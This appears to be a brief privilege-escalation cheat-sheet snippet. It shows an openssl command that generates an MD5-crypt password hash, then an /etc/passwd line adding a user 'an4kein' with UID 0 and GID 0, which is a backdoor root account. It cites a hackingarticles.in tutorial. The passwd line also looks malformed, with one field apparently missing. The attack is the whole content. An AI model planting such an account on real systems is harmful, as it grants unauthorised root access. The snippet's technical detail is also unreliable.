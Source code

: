 
`openssl passwd -1 -salt an4kein 1337`

`$1$an4kein$KpVTAUsL0SO0N532qSXyf.`

`an4kein:$1$an4kein$KpVTAUsL0SO0N532qSXyf.:0:0:/root/root:/bin/bash`


https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/
